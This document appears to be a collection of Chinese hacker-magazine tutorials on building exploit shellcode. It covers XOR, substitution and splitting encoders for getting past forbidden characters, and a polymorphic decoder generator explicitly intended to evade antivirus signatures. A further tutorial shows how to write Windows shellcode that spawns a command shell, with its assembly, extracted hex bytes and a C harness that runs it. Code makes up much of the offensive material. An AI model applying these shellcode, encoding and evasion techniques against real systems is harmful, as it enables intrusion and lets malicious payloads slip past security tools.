"\xeb\x33\x5b\x33\xc9\x66\xb9\x12\x01\x33\xf6\x81\x34\x33\xe7\xfb\xfd\xd4\x83\xc6\x04\x81\x34\x33\xf4\xfc\xe7\xfb\x83\xc6\x04\x81\x34\x33\xf9\x72\xfa\x61\x83\xc6\x04\x80\x34\x33\xf4\x83\xc6\x01\x90\xe2\xd8\xeb\x05\xe8\xc8\xff\xff\xff";
```

4 个需要动态确定的常量在这一段代码中的偏移分别是 14、24、34 和 44。

写到这里发句牢骚，Decode 部分无疑是要精心构造的，但是这偏偏是一个非常费体力的活动，没有什么技巧，就是道理简单、运算复杂。

在这里只是单纯给出这一段，因为方法前面已经反复说过，而且麻烦的是具体做起来是不可能手把手地去教。WTF 叫我给录像，我的“个歪歪（请用扬州普通话读）”，我这么笨的菜鸟调一个 ShellCode 超过了 8 小时，且不说录像后的文件多大，录下来了是否有人看都是一个大大的问题——反正如果是我的话，有时间还不如去看三场电影。

扯远了，言归正传。编码和解码的架子都已经搭好，剩下的就是组装。前面有了怎样计算那些异或字符的代码片段，收集起来写到解码部分，解码部分就已经完整。为了方便调用起见，这个我写成了一个函数：

```c
void MakeDecode(int i, int j, int k, unsigned char l)
{
    *(int*)(de+14) = i;
    *(int*)(de+24) = j;
    *(int*)(de+34) = k;
    *(de+44) = l;
}


```

3 个变量 i、j、k 是头 12 个字符，l 是最后一个字符，这个函数可以完成解码部分的填充工作。前面说到，计算出来的变量在 `Temps[]` 里面，拿出来调用这个函数即可。

ShellCode 部分也要预先与 `Temps[]` 这个串异或运算以逃脱禁用的字符。这部分工作也是依据 `Temps[]` 来进行的，其实和解码部分的工作一模一样（说白了，就是因为相同的异或做两遍就还原了）。代码稍微长了点，好在算法比较容易，详细代码请查看光盘“源代码”栏目，按照文章名查找即可。另外，这一段其实可以在计算 `Temps[]` 的过程中就做掉，不过为了便于理解，我将它们分开了。

说到这里，这个算法差不多就已经算是完了。几个重点的问题已解决，只要把解码部分和编码后的 ShellCode 部分连接在一起，就成功地完成了所有的任务。按照 Main 中的用法，就可以直接构造变态要求的 Exploit。对于禁用字符的定义，在源代码的 Badchar 中给出了一些，你也可以在一定程度上进行修改，但是不要太过分了。太多字符不能出现的话，这个构造 ShellCode 的方法是会失败的。

在上一篇文章的最后我提到过这种方法，里面说的是倾向于标准为 4 或者 8 的划分，想来是隐患了，实际的情况是这个数字通常在 7 到 17 之间。剩下没有解释的代码都很简单，大家可以直接拿来用而不用去管。其实这两篇文章都是关于 ShellCode 的一些想法和简单的算法，我也只是有点心得就写了出来，让高手见笑了。另外，如果你有什么更好的想法，也希望你能够写出来与我们共享。

#### ShellCode 编码变换大法
文/图 王炜 / ww0830

现在很多有溢出漏洞的程序对 ShellCode 都有特定的要求，一类是对 ShellCode 的长度大小有限制，另一类就是不能出现某些特殊字符，比如 Cmail 漏洞不能有大写字母，Foxmail 不能有 `0x2E`、`0x2F` 字符一类的。在这里不讨论长度限制的情况，而是讨论一下如何避免特殊字符。

要使 ShellCode 避免出现特殊字符有两种方法：

- 一种是编写好 ShellCode 后，对不合要求的字符进行指令等价变换。比如一些 IIS 漏洞里不能出现 `0x20`，对指令 `mov eax, 20h`，就可以改为 `mov eax, 24h`、`sub eax, 04h`，这样来避免出现 `0x20`。这种等价变换法对有少量字符限制的情况比较实用，但如果限制的字符较多，这种方法就比较困难了。
- 另一种就是把代码分成两块。第二块是 EnShellCode，即编码后的 ShellCode，完成我们想要的功能，比如开端口、反向连接的 ShellCode 有不合法的字符，所以我们利用一定的算法，把初始的 ShellCode 进行一定的变换编码，变成合法的 EnShellCode 后放在第二块；而第一块是完成解码的 Decode，其功能是把 EnShellCode 重新变回初始的 ShellCode 后，再跳过去执行。其示意图如图 1 所示。
当然，Decode 和 EnShellCode 里面不能有非法的字符，否则变换就失去了意义。在这篇文章里，主要讨论算法 F 的变换和逆算法 F' 在 Decode 里的实现。

##### XOR 大法

XOR 是指按位异或，其运算规则是相同为 0，不同为 1，即：

> 0 xor 0 = 0  
> 0 xor 1 = 1  
> 1 xor 0 = 1  
> 1 xor 1 = 0

根据运算规则，我们可以推出对于某个值 X、密钥 Key，有如下等式成立：

> `X xor Key = Z`，`Z xor Key = X`（即 `Key xor Key = 0`，两次异或恢复原值）

即一个值对同一个数异或两次后，得到的结果为其原值。我们可以利用该性质来实现变换算法 F 和逆算法 F'。

- 变换算法 F：将 `ShellCode[i]` 与密钥 `Key` 异或，得到 `EnShellCode`。
- 逆算法 F'：在 Decode 中将 `EnShellCode` 再次与同一 `Key` 异或，恢复 `ShellCode`。

```c
#define KEY 0x97
int main()
{
    int i;
    int nLen;
    nLen = strlen(shellcode);
    for(i=0; i<nLen; i++)
    {
        enShellCode[i] = ShellCode[i] ^ KEY;
    }
    return 0;
}
```

```asm
jmp Decode_end
Decode_start:
    pop edx
    // 得到解码开始位置 esp -> edx
    dec edx
    xor ecx, ecx
    mov cx, 0x200
    // 要解码的 EnShellCode，长度 0x200 应足够
```

```asm
Decode_loop:
    xor  byte ptr [edx+ecx], 0x97
    // 因为编码时用的 Key 是 0x97，所以解码要一样
    loop Decode_loop
    jmp  Decode_ok

Decode_end:
    call Decode_start

Decode_ok:
```

我们把上面的汇编转换成机器码，就得到了 Decode 的代码，然后在后面附上 EnShellCode 的代码，就得到了完整的部分了。

##### 3. 小结

Xor 大法是最早使用、同时也是现在最常见的编码方法。它最大的好处是编码和解码都比较简单，而且也可以避开一定的字符，比如 ASCII 为 0 的字符。通常 ShellCode 是以字符串形式传送过去的，为 0 的字符会被认为是字符串的结束标志而导致截断后面的字符，而用 Xor 方法经过编码后，为 0 的字符就会被编码成其他的值，从而避免被截断。

该方法也有一定适应性，如果 ShellCode 异或某个 Key 后还有非法字符，可以尝试改变 Key 的值，直到完全合法为止。

当然这种方法的缺点也很明显：当限制字符较多，或限制字符是一个较大的范围的时候，很有可能找不到合适的 key 来符合限制要求。在这种情况下，我们就需要用其他的算法来实现编码和解码了。

#### 直接替换法

我们在编码的时候，先对每一个字符都进行异或编码。如果某个字符异或后还是非法字符，则再单独对该字符进行处理，变换成符合要求的字符，这就是直接替换法。

##### 1. 变换算法

其思想是 ShellCode 的每一个字符 `ShellCode[i]` 先和 Key 作异或得到 `Temp`，如果合法，就直接将 `Temp` 保存在 `EnShellCode[i]` 当中；如果不合法，则将 `EnShellCode[i]` 存为 `'0'`，而把 `EnShellCode[i+1]` 存为 `temp+'0'`。

> 这里 `'0'` 只是一个标志，我们遇到了 `'0'` 就知道这里只是一个标志，后面一位才是真正的 ShellCode，减去 `'0'` 后就可以恢复原来的值。

| 条件 | 结果 |
|---|---|
| `ShellCode[i] xor Key = temp` 且 `temp` 合法 | `enShellCode[i] = temp` |
| `temp` 非法 | `enShellCode[i] = '0'`；`enShellCode[i+1] = temp + '0'` |

图3

当然我们也可以把 `'0'` 换成其他的字符，这里只是一种思想。其实现代码如下：

```c
int nShellCodeLen = strlen(ShellCode);
k = 0;
for(i=0; i<nShellCodeLen; ++i)
{
    temp = ShellCode[i] ^ Key;
    // 对一些可能造成 ShellCode 失效的字符进行替换
    if(temp<=0x1f || temp==':' || temp=='/' || temp=='0' || temp==' ')
    {
        EnShellCode[k]='0';
        ++k;
        temp += 0x31;
    }
    EnShellCode[k]=temp;
    ++k;
}
```

##### 2. 逆算法

清楚了编码的方法后，解码的思想也很容易理解。就是判断 EnShellCode 的每个字符，如果不是 `'0'`，就直接异或 Key 变回去；如果是 `'0'`，就把后面的字符减去 `'0'` 后再异或 Key，这样就恢复了以前的 ShellCode。实现的汇编代码如下：

```asm
jmp Decode_end
Decode_start:
    pop edi
    push edi
    pop esi
    xor ecx,ecx
Decode_loop:
    lodsb
    cmp al,cl
    jz Decode_ok
    cmp al,0x30        // 判断是否为标志 '0'
    jz special_char_clean
store:
    xor al,key
    stosb              // 保存解码后的 ShellCode
    jmp Decode_loop
special_char_clean:    // 特殊字符处理，把后一位字符减去 0x31
    lodsb
    sub al,0x31
    jmp store
Decode_end:
    call Decode_start
Decode_ok:
```

同样，我们把上面的汇编转换成机器码就得到了 Decode 的代码，然后在后面附上 EnShellCode 的代码，就得到了完整的代码了。

##### 3. 小结

该方法十分巧妙，灵活地运用可以解决很多字符限制的问题，比如对 Cmail 就可以把不合规的大写字母减去一个值变成小写字母，当然在前面放上一个标志，解码的时候看见这个标志，就把后面的字母加上那个值，从而得到了恢复。

Decode 的代码本身就需要是合法的字符，如果有些不合要求的字符，可以采用微调的方式，使其符合限制条件；如果微调无效，那就需要采用其他的算法了。

#### 拆分法

这种方法是 F.zh 提出的，他的思路是把 `ShellCode[i]` 拆分成几个数字的和。由于和的组合方式有很多种，所以可以避免大量的 ASCII 字符。他还提到，在 32 位的计算机上，每 4 个字节处理比较方便，所以最好拆分成 4 个数字的和，即：

```text
ShellCode[i] = w + x + y + z
```

这个思想有相当的创造性，如果有什么不明白，可以仔细看看前面的《定制特殊的ShellCode》一文。

##### 1. 变换算法

把 `ShellCode[i]` 取出来，穷举所有的求和组合的情况，如果一个组合可以满足不包含任何的限制字符，那该拆分就是合法的，就把它保存为 EnShellCode，然后再考虑 ShellCode 的下一位 `ShellCode[i+1]`，直到所有的 ShellCode 字符拆分完毕，我们就得到了符合限制条件的 EnShellCode。

### 2. 逆算法 F’

也很简单，就是得到 EnShellCode 的头后，依次取 4 个字节相加，然后放入内存。F.zh 在原文中也给出了 Decode 的汇编代码，很清晰，建议大家好好看看。

##### 3. 小结

这是一种不错的方法，而且其创新思维也值得我们学习，实在是非常好的方法了！

#### 其他算法简介

从上面 3 种方法的介绍可以看出，其实只要满足下面条件的算法 F 和逆算法 F’，都可以用于编码变换 ShellCode，如图4所示。

| 算法 F | 逆算法 F’ |
|---|---|
| ShellCode → enShellCode | enShellCode → ShellCode |

图4

所以只要有好的算法和符合编码限制的实现，都可以用于 ShellCode 的编码。在实际中，还有一些使用过的编码算法，比如 Yuange 在《Widechar 的字符串缓冲溢出攻击技术》中提出来的，把 `ShellCode[i]=0xAB=A*0x10+B` 进行拆分，恢复就用 `0xA*0x10+0xB=0xAB`，这个算法在 Webdav 漏洞攻击的时候得到了广泛的运用，算法的代码，可以参考 yuange 和 isno 的文章。

还有 F.zh 提到的，Xor 一个 4 字节的数字，比如 `0x123456`，这样也可以大量减少出现非法字符的可能。

这篇文章更多的是对编码算法作一些总结，主要目的还是想抛砖引玉。如果有更好的办法，希望大家一起讨论，一起进步。

> WTF：本篇我们花了很多笔墨来说明一个变形的 Shellcode 到底是什么，因为 Shellcode 是所有溢出的灵魂，绝对是大家讨论的热点和重点。这一次推出实战篇，我们就来做一个简单的变形 ShellCode。由于篇幅的限制，这个变形的东西还比较幼稚，但是它已经能够逃脱几乎所有按照 ShellCode 特征来杀“毒”的各类软件。在 ShellCode 不限长度的时候，你甚至可以反复地使用这个加密的头部来进行变形。具体内容，我们在文中慢慢聊……

文／孟西守歌

## ShellCode篇 《黑客防线》2009 缓冲区溢出攻击与防范专题

解码部分，而且要求这部分可以相对独立，这样就像一个套子一样，套在一块代码上面就变了一次形，多套几次也没关系，最多变成其他的更加让人不知为何物的东西。

需要明白的是，我们写的这个变形 ShellCode 是一次性的（也叫做抛弃型的），因为 ShellCode 在一次 Exploit 的时候只能用一次，不像病毒一样还要辛辛苦苦地传播。所以我们做的东西只要能够生成每次不一样的 ShellCode 就可以，ShellCode 不用包含自己让自己变形的部分……

我们的变形之旅还是从一个最基本的 Decode 部分开始：

```asm
jmp l

de: pop ebx
    xor ecx, ecx
    mov cl, 222h
lp: xor byte ptr [ebx], 0x99
    inc ebx
    loop lp
    jmp stt
l:  call de
stt:
```

看过两期连载的朋友可能都要笑了，又是这个，都看烦了。没关系，从最简单的开始嘛。我们假设起作用的部分是 Xor 过的 `0x99`，就可以专注于解码部分了……

对于任何一个可执行的 ShellCode（表示为字符串 S），下面就是我们最常看到的形式：

`D + X(S)`

帽子再套一层，变成了：

`D + X(D + X(S))`

> **WTF**：这也是可以执行的，就是做了两次解码工作。不过我们平时是见不到这种形式的 ShellCode 的，因为解多少次码都可以变成解一次码的方式，而黑客们总是喜欢最简便的东西。话说回来，虽然不常见到，但对于变形来说，这也是很不错的方法，前提是你的 ShellCode 没有限制长度。

仔细看这个 Decode 部分，除了跳转以外，用到了两个寄存器 Ebx 和 Ecx。其中 Ecx 是作为计数器使用的，一旦确定了要用 Loop，那就不能改变……真正可以选择的还是 Ebx。考虑到栈的完整性和指令的长度，一般不建议使用 Esp 和 Ebp，所以只有 Eax/Ebx/Edx/Esi/Edi 5 个寄存器可以选择使用。

这里的替换不是 VB 中 Replace 那么简单，我们操作的是最后生成的机器码。寄存器的变换导致字节的变换，不是简单的 Replace。在原理篇里面说过，总可以有某个公式来对应不同寄存器相同指令下的机器码。

寄存器本身没有高低级别，然而对应指令的时候，它们有一个潜在的顺序。简单举个例子，对 INC 而言，`inc eax` 对应指令为 `0x40`，`inc ecx` 对应指令为 `0x41`……一直到 `inc edi` 对应的指令为 `0x47`，排列顺序就是 `eax/ecx/edx/ebx/esp/ebp/esi/edi`。

```c
enum Register
{
    EAX = 0, ECX = 1, EDX = 2, EBX = 3,
    ESP = 4, EBP = 5, ESI = 6, EDI = 7
};
```

很容易得到 `Inc exx` 的对应指令是 `0x40+Register`，同样的 `Dec`、`Push`、`Pop` 等都满足这样简单的规律。回过头来看那个 Decode，要做的工作是选择寄存器后改变代码，自然而然地就要去寻找其中的规律……

```asm
pop exx:
    0x58 + Register

xor byte ptr[exx], 0xXX:
    [80] [0x30 + Register] [XX]
```

XOR 是一个 3 字节的指令，前面 `0x80` 固定，最后一个是操作数。在实验的时候大家也看到了，对于 Esp 和 Ebp，这是一个 4 字节的指令，长度不一样，也是我们要抛弃的一个原因。

准备工作已经就绪，就从一个程序开始，按照原理篇的几个部分来做。第一个程序是 `Test0.cpp`（WTF：请见光盘，下同），我已经写好了，这个没有什么特别的地方，只是告诉你这是最基础的部分……

程序 `Test1.cpp` 就是变形的开始。我们先大致地把 Decode 部分分成了 8 份，基本上每个指令就是一份。这 8 个部分，真正与选择寄存器有关的还是 2、4 和 5。第一步“寄存器的选择”，焦点就集中在这 3 个部分上。

> **WTF**：本来这里有 9 条指令的，但是 `Xor ecx,ecx` 和 `Mov cl, 222h` 其实就是 `Mov ecx, 222h` 一个指令，不过是我们为了避免 `0x00` 出现而耍的花招而已，大体上还是把它们看做一个指令为好。

选择寄存器不用说了，初始化一个随机种子，然后就可以按照获取的随机数来选择一个。根据这个寄存器，按照上面的公式，第 2 句的 `Pop exx` 的机器码就应该是 `0x58+Register`，第 4 句的 `XOR` 中，第 2 个字节应该是 `0x30+Register`。同样，第 5 句的 `Inc exx` 应该成了 `0x40+Register`。具体的实现在 `Test1.cpp` 里面对应了 `Step1` 函数，函数虽然很短，但程序较长，建议大家还是打开看看。

除了选择寄存器以外，还有一个函数是 `Combine`，这是将分散的头部写成一个统一的头部。这个函数还有一个另外的功用，就是对代码进行一些可能的调整，交换指令次序一部分也可以在这里来实现。

不管你相不相信，就这么简单的一段程序（`test1.cpp`）已经是一个变形的头部了。遗憾的是，它的变形能力还非常有限，因为归根结底这段代码里面只用到了一个寄存器，我们选择寄存器的组合方式只有区区的 5 个。如果有更多的寄存器在 `Decode` 部分出现，同时我们要选出很多个寄存器备用的话，这样子组合下来的结果就更多，变形的效果更好（相应地会更复杂，所以还是简单地来做例子比较好）。

原理篇里面说到的第二种方法是交换指令的顺序，在这个地方也可以办到，看看以下代码：

```asm
pop ebx
xor ecx, ecx
mov cl, 222h
```

还是将后面两句看成一个整体，弹出栈顶的值给寄存器或是赋值给 `Ecx`，这两步没有绝对的先后次序，也就是说谁在前面并不影响到最终的结果。因而我们可以随意地调换两者的位置（虽然是“随意”，说到底也就两种方式而已；如果很多条指令可以互换次序的话，情况就麻烦了），对应的实现在函数 `Step2()` 中，交换一下字符串的内容，这样的话不影响到后面的一系列函数。

最麻烦的还是所谓的插入 `NOP-like` 指令。最容易想到的变形方法就是这个，然而却是最难实现的。`Decode` 部分不可避免地要有一些相对跳转和相对调用的指令，一旦其中的某一个指令长度发生了变化，几乎要影响到所有相对跳转的地方，因此要加入 `NOP-like` 指令的时候，需要对每一个指令进行考虑。

对于我们上面写的这个 `Decode` 而言，我们已经人为地将其分成了 8 个部分……之所以这样做，有一个好处是我们可以在加入 `NOP-like` 指令的时候，仅仅是加入每一个部分中去，当作这个部分的一个整体，而不是安插在某两个部分之间，难于理解不说，同时也难于处理。

以插入 `NOP 0x90` 为例（其他的 `NOP-like` 指令我们已经在原理篇里面讨论过了），如果我们插入到第一句 `Jmp l` 后面，毫无疑问直接影响到的只有自身而已，最后面的一个 `Call de` 也可以算一个。不过 `Call` 的地方是一条有意义的指令或者是一个 `NOP` 关系不是很大，简便起见，索性就不修改 `Call de` 指令。这个修改反映在 `Test3` 的 `Step3()` 函数中，在对第一句加入了 `NOP-like` 以后，`Jmp` 的操作数应该相应地加上增长的字节数，所以 `Head1[1]` 就视情况有所修改。

对 `Head2` 的插入就更为复杂。`Pop exx` 后面加入 `NOP-like` 以后，除了第一个 `Jmp` 以外，后面的 `Call` 也受到了影响。同样的 `Xor ecx,ecx` 和 `Mov cl` 加入 `NOP-like` 以后也有同样的影响。这两个在前面说过是可以交换的，也容易证明交换后对前后指令影响一致，所以可以一同处理：即加入 `Nop-like` 后前面的 `Jmp` 要多跳一条指令，后面 `Call` 的目标也要挪一下。

后面的修正可以接着做，都是同样的方法。`Test3.cpp` 中还举了一个 `Inc exx` 后的插入，这里就不具体解释了，道理和前面差不多，不过插入的不再是 `NOP`，而是原理篇里面提到过的指令对——`Inc eax` 和 `Dec eax`（`0x4048`）。`Nop-like` 的指令多种多样，在网上也有相关的讨论，有兴趣的话可以去看看相关文章。

还有一个 `Misc()` 函数，这个函数是通过 `Decode` 部分的本身性质来变形的。例如上面的循环次数，也就是要解码多少个字节，这个数目可大可小，只要能够保证所有编码过的字符都能够被解到即可。像此类的变形不太可能说清楚属于什么方面，只能视情况而定，所以放到杂类中了。

到这个时候，差不多一个变形的 `Decode` 部分已经完成。剩下一件小事情，就是将其作用的 `ShellCode` 用一个数字来异或，然后将对应的数字填入 `Decode` 部分即可。代码我已经有一个简单的实现（`WTF`：见光盘中给出的 `Test4.cpp`）。具体的细节不再做解释，大家看代码一下子就可以明白。

光盘里的东西到此为止，然而变形的路子并没有就此结束，还有一些值得讨论的，顺带在文章中简单提提。对这个过于简单例子有所不满的朋友，下面的话是可以进一步做到的，希望您能和我交流一下。

第一是关于起作用的部分，也就是所谓 `Real ShellCode` 部分的编码方式。例子中给出的是很普通的单字节异或，据我的实验来看，似乎 4 个字节一组或者是 7 个字节一组的异或效果比较好。不受限于篇幅的关系，没有给出这样的代码。4 个字节一组的主要思想就是平衡解码部分的生成难度和变形能力，对于 32 位机而言，简单处理情况下 4 字节（DWORD）刚好是一次性处理的极限。7 字节主要考虑的是变形的能力，这种情况下显然不能一次性异或 7 个字节，而可能要 4-2-1 或者 2-2-2-1 或者其他分次异或的方法，对应的指令集比较分散，只是解码部分稍微麻烦了一点。当然，其他的编码方式也可以，只不过写起来可能还要复杂一些。

第二是解码部分的编写。这里给出的编写方法显然太过于复杂，好的办法是在你编写的上面套一层像编译器一样的东西，这样需要做的不过就是不断地加指令、相对位置的调整，还有机器码的生成都可以让程序自己完成。我写了个简单的，有兴趣的话可以交换一下（WTF：唉，圈子内的风气啊，没办法啊没办法……），省是省力些，不过不太好用就是。

第三是有关解码头部本身的。这个头部，在前面说过了，可以反复地加、反复地用，没有关系的，代码实现起来也很方便。变形病毒的话，这个头部是集成在了 Real ShellCode 里面，负责在传播的时候生成新的解码部分。这里我们编写变形的 ShellCode 不需要这么麻烦（抛弃型的），就单独把头部的生成提取出来做成了程序，这也就是前面说的“不用包含自己让自己变形的部分”。

生成变形的 ShellCode 不是一件很难的事情，只要能写出一种编码的方法，然后写出解码的头部就可以了。然而麻烦的是如何在长度（复杂度）与变形的能力之间寻找到一个平衡点。写 ShellCode 则不然，通常 Exploit 需要的 ShellCode 不能太长，而且 IDS/IPS 借以判定的字串往往还不是 ShellCode，感觉上只要能写出一个让杀毒软件不认识的 ShellCode 就可以了。从这一点上看，变形 ShellCode 的唯一好处是每次能够提供一个基本上全新的 ShellCode，只要黑客不公开算法，杀毒软件厂商没有那个精力来分析这些东西！

> 【本文涉及的代码（程序），请见随书光盘】

**WTF：**这几次的菜鸟版 EXP 系列文章都是重点讲解溢出编程的原理和思路，包括漏洞的定位、利用、构造以及遇到限制时 ShellCode 的编码技巧等，但对 ShellCode 本身的编写，特别是 Windows 环境下 ShellCode 的初步编写，却很少提及。在文章中都是说发扬“拿来主义”，有国外现成的 ShellCode 直接拿来用，对不合规范的地方稍微改改就成——其实我们是有策略的，试想一来就一大堆汇编，初学者不晕就怪，所以前期重点放在激发大家的兴趣上。但作为一个菜鸟，在兴趣激起来后，毕竟要进入到 ShellCode 的编写中：一是因为 Exploit 很大的乐趣就在于 ShellCode 的编写；二是明白了 ShellCode 的编写，才能更好地使用和改进外面的代码。那，我们开始……

### 打造 Windows 下自己的 ShellCode

文/图 主编/wW0830

为了帮助初学者了解 ShellCode 的编写，并能一步一步操作得到自己的 ShellCode，因此将 Windows 下 ShellCode 的编写过程作详细的介绍，以利于像我一样的菜鸟，最终能够写出简单的但却是真实的 ShellCode。而进一步高级的 ShellCode 的编写，也会在系列后面的文章中一步一步演示。希望大家会发现，EXP 虽好，ShellCode 最美妙！

## ShellCode简介和编写步骤

从以前的文章和别人的攻击代码中可以知道，ShellCode 是以 `\xFF\x3A\x45\x72......` 的形式出现在程序中的，而 Exploit 的构造就是想方设法地使计算机能转到我们的 ShellCode 上来，去执行 `\xFF\x3A\x45\x72......`。由此看出，ShellCode 才是 Exploit 攻击的真正主宰（就如同独行者是我们文章的主宰一样）。而 ShellCode 的那些值 `\xFF\x3A\x45\x72......` 其实是机器码的形式，和一般程序在内存里面存的东西是没什么两样的，攻击程序把内存里面的数据动态改成 ShellCode 的值，再跳过去执行，就如同执行一个在内存中的……

从以前的文章和别人的攻击代码中可以知道，一般程序一样，只不过完成的是我们的功能，溢出攻击就这样实现了。

在此可以下个定义：ShellCode 就是一段程序的机器码形式，而 ShellCode 的编写过程，就是得到我们想要程序的机器码的过程。

当然，ShellCode 的特殊性和 Windows 下函数调用的特点，决定了它和一般的汇编程序有所不同。所以其编写步骤应该是：

- 1）构想 ShellCode 的功能  
- 2）用 C 语言验证实现  
- 3）根据 C 语言实现，改成带有 ShellCode 特点的汇编  
- 4）最后得到机器码形式的 ShellCode  

其中最重要的是第三步，改成有 ShellCode 特点的汇编，将在本文后面讲到。

首先第一步是构想 ShellCode 的功能。攻击者想要的功能可能是植入木马、杀掉防火墙、倒流时光、发电磁波找外星人，等等（WTF：咳……），但最基本的功能还是希望开一个 DOS 窗口，可以在 DOS 窗口中做很多事情，所以先介绍开 DOS 窗口 ShellCode 的写法吧。

## C语言代码

下面这个程序可以完成开 DOS 窗口的功能，大家详细看注释。

```c
#include <windows.h>
#include <winbase.h>
typedef void (*MYPROC)(LPTSTR);
// 定义函数指针
int main()
{
    HINSTANCE LibHandle;
    MYPROC ProcAdd;
    LibHandle = LoadLibrary("msvcrt.dll");
    ProcAdd = (MYPROC)GetProcAddress(LibHandle, "System");
    (ProcAdd)("command.com");
    // 其实就是执行 System("command.com")
    return 0;
}


```

其实执行 `System("command.com")` 也可以完成开 DOS 窗口的功能，写成这么复杂是有原因的。解释一下该程序：首先 `typedef void (*MYPROC)(LPTSTR)` 是定义一个函数指针类型，该类型的函数参数是字符串，返回值为空。接着定义 `MYPROC ProcAdd`，使 `ProcAdd` 为指向参数是字符串、返回值为空的函数指针。使用 `LoadLibrary("msvcrt.dll")` 装载动态链接库 msvcrt.dll，再使用 `ProcAdd = (MYPROC)GetProcAddress(...)`（`LibHandle, "System"`）获得 System 的真实地址并赋给 ProcAdd，之后 ProcAdd 里存的就是 System 函数的地址。以后使用这个地址来调用 System 函数，最后 `(ProcAdd)("command.com")` 就是调用 `System("command.com")`，可以获得一个 DOS 窗口。在窗口中我们可以执行 `Dir`、`Copy` 等命令，如图1所示。
#### 获得函数的地址

程序中用 GetProcAddress 函数获得 System 的真实地址，但地址究竟是多少，如何查看呢？

在 VC 中，我们按 F10 进入调试状态，然后在 Debug 工具栏中点最后一个按钮 Disassemble 和第4个按钮 Registers，出现了源程序的汇编代码和寄存器状态窗口，如图2所示。
继续按 F10 执行，直到 `ProcAdd = (MYPROC)GetProcAddress(LibHandle, "System")` 语句下的 `CALL dword ptr [__imp__GetProcAddress@8 (00424194)]` 执行后，EAX 变为 7801AFC3，说明在我的机器上 `System()` 函数的地址是 `0x7801AFC3`，如图3所示。

> WTF：注意本次测试中作者的机器是 Windows 2000 SP3，不同环境可能地址不同。
图3

为什么 EAX 就是 `System()` 函数的地址呢？那是因为函数执行的返回值在汇编下通常是放在 EAX 中的，这算是计算机系统的约定吧，所以 `GetProcAddress("System")` 的返回值（System 函数的地址）就在 EAX 中，为 `0x7801AFC3`。

## Windows下函数的调用原理

为什么要这么麻烦地去得到 System 函数的地址呢？这是因为在 Windows 下，函数的调用方法是先将参数从右到左压入堆栈，然后 Call 该函数的地址。比如执行函数 `Fun(argv1, argv2)`，先把参数从右到左压入堆栈，这里就是依次把 `argv2`、`argv1` 压入堆栈里，然后 Call `Fun` 函数的地址。这里的 Call `Fun` 函数地址其实等于两步：一是保存当前 EIP，二是跳到 `Fun` 函数的地址执行，即 `Push EIP + Jmp Fun`，其过程如图4所示。
图4

同理，我们要执行 `System("command.com")`，首先参数入栈，这里只有一个参数，所以就把 `command.com` 的地址压入堆栈，注意是 `command.com` 字符串的地址，然后 Call System 函数的地址，就完成了执行。如图5所示。

## 构造有ShellCode特点的汇编

明白了 Windows 函数的执行原理，我们要执行 `System("command.com")`，就要先把 `command.com` 字符串的地址入栈，但 `command.com` 字符串在哪儿呢？内存中可能没有，但我们可以自己构造！
图5

我们把 `command.com` 一个字符一个字符地赋给堆栈，这样 `command.com` 字符串就有了，而栈顶的指针 ESP 正好是 `command.com` 字符串的地址，我们 `push esp` 就完成了参数 `command.com` 字符串地址入栈，如图6所示。
图6

参数入栈了，然后 Call System 函数的地址。刚才已经看到，在 Windows 2000 SP3 上，System 函数的地址为 `0x7801AFC3`，所以 `Call 0x7801AFC3` 就行了。把思路合起来，可以写出执行 `System("command.com")` 的带有 ShellCode 特点的汇编代码如下。

```asm
mov esp, ebp
push ebp
mov ebp, esp
xor edi, edi
push edi              ; 压入0，构造字符串结尾\0
sub esp, 08h

; "command.com"
mov byte ptr [ebp-0ch],63h ; c
mov byte ptr [ebp-0bh],6fh ; o
mov byte ptr [ebp-0ah],6dh ; m
mov byte ptr [ebp-09h],6dh ; m
mov byte ptr [ebp-08h],61h ; a
mov byte ptr [ebp-07h],6eh ; n
mov byte ptr [ebp-06h],64h ; d
mov byte ptr [ebp-05h],2eh ; .
mov byte ptr [ebp-04h],63h ; c
mov byte ptr [ebp-03h],6fh ; o
mov byte ptr [ebp-02h],6dh ; m

lea eax,[ebp-0ch]
push eax              ; command.com 字符串地址作为参数入栈
mov eax, 0x7801AFC3
call eax              ; call System函数地址


```

明白了原理再看实现，是不是清楚了很多呢？

#### 提取 ShellCode

首先来验证一下，在 VC 中可以用 `__asm` 关键字插入汇编。我们把 `System("command.com")` 用汇编替换，`LoadLibrary` 先不动，然后执行，成功弹出了我们想要的 DOS 窗口，如图7所示。
图7

同样的道理，`LoadLibrary("msvcrt.dll")` 也仿照上面改成汇编。注意 `LoadLibrary` 在 Windows 2000 SP3 上的地址为 `0x77e69f64`。把两段汇编合起来，编译、链接、执行，也成功了！如图8所示。
图8

有了上面的准备工作，提取 ShellCode 就只剩下体力活了。对全汇编程序调试，进入 Disassembly，选择 Code Bytes，即可得到汇编对应机器码。把机器码原样抄下，即得到所需 ShellCode。

```c
unsigned char ShellCode[] =
"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
"\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52...";
```

```c
"\x45\xF9\x54\xC6\x45\xFA\x2E\xC6..."
"\x64\x9F\xE6\x77"  // SP3 LoadLibrary 地址 0x77e69f64
...
"\xC3\xAF\x01\x78"  // SP3 System 地址 0x7801afc3
"\xFF\xD0";
```

#### 验证 ShellCode

最后要验证提取出来的 ShellCode 能否完成功能。新建工程和 C 源文件，把 ShellCode 复制为数组，在 `main` 中添加 `((void(*)(void))&ShellCode)();`。

```c
unsigned char ShellCode[] = "...";

int main()
{
    ((void(*)(void)) &ShellCode)();
    return 0;
}


```

`((void(*)(void)) &ShellCode)()` 这句是关键：把 `ShellCode` 转换为函数指针并调用，相当于执行数组中的机器码。若 ShellCode 正确，就会弹出 DOS 窗口，功能完成。

#### 小结

这个 ShellCode 功能较单薄，通用性还有待提高，但它是亲手打造的完整示例。掌握基本方法后，就可以在更广阔空间中继续深入。

WTF：有文章详细讲解了 Windows 下 ShellCode 的编写步骤和实际例子，并且专题文章中对 ShellCode 的编写技术作了进一步深入，讨论了突破防火墙的 ShellCode 思路和具体代码。本文是它的后续，和大家一起探索神秘的 ShellCode 天堂！

### 从 ShellCode 突破系统版本限制

文/图 王炜/ww0830
《黑客防线》杂志在编写突破防火墙的 ShellCode 时，由于篇幅的原因，只用了固定的函数地址，实现了重用本机端口地址的功能。为了让其更具有实用性，在这里加入动态获取 ShellCode 函数地址部分，这样生成的 ShellCode 就可以实现通用了。注意，这可是外面找不到的，真正可用的 ShellCode 哦！

#### 动态获取函数地址的原因

